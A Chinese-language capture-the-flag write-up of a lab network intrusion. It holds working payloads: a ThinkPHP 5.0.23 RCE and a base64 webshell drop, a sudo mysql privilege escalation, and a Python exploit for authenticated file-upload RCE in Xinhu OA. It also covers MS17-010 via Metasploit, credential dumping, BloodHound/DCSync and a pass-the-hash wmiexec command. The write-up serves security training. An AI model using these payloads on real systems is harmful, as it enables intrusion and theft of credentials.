

# 攻击流程

## 信息收集



发现了thinkphp5.0.23的rce


## GetShell

直接用payload打


```
http://39.101.165.215/index.php?s=captcha&test=-1

 _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

写一个马

```
 _method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
```


## SUID提权

连上蚁剑，目前用户是www-data，看看有没有什么方式可以提权的


看到了mysql是不需要密码就可以root权限执行的


```
sudo mysql -e '\! whoami'
sudo mysql -e '\! ls /root'
```


看到了第一段的flag :`flag{60b53231-`


接着来看内网其他机器


看到了内网网段

## 内网信息收集和代理

上传fscan和stowoway


fscan扫到了内网中存在另外两台机器172.22.1.21（存在ms17-010），以及172.22.1.18（信呼OA）

在VPS上收到了连接，开一个socks在7777


## 攻击内网

### 信呼OA

配置proxifier后，直接访问，先打web


信呼OA2.2.8，弱口令admin/admin123可以登录后台


这个版本在后台可以上传文件RCE

```python
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
data2 = {
    "1": "system('whoami');"
}
print(url_pre + filepath)
r = session.post(url_pre + filepath, data=data2)
print(r.text)

```


蚁剑连接一下这个，找到了flag2:	`2ce3-4813-87d4-`


发现这是一台域内机器，域控服务器是172.22.1.2


### MS17-010

MS17-010还是用msf打最稳定

```
proxychains4 msfconsole

也可以直接set proxies socks5:127.0.0.1:7777
```

因为目标机器不出网，payload用`bind_tcp`


抓取用户hash

```
load kiwi
creds_all
```


## 域内信息收集

上传`SharpHound.exe`来搜集一下域内信息

```
upload "/root/SharpHound.exe" "C:/SharpHound.exe"

shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231212112608_BloodHound.zip" "/root/"
```

然后放在bloodhound里面分析

这里不知道为什么直接导入zip会出错，但是解压后不导入第一个computer就可以


这里可能有点问题，但是我看别人在bloodhound中可以直接看到`XIAORANG-WIN7$`这台机器有DCSync权限

直接抓到了Administrator的hash


用wmiexec登录

```
python3 wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8
```


拿下域控


而且这里有krbtgt的hash，可以用来做一个黄金票据

拿到了flag3


```
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```


参考链接

https://github.com/H3rmesk1t/Security-Learning/blob/main/Penetration/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial.md

https://www.cnblogs.com/thebeastofwar/p/17754145.html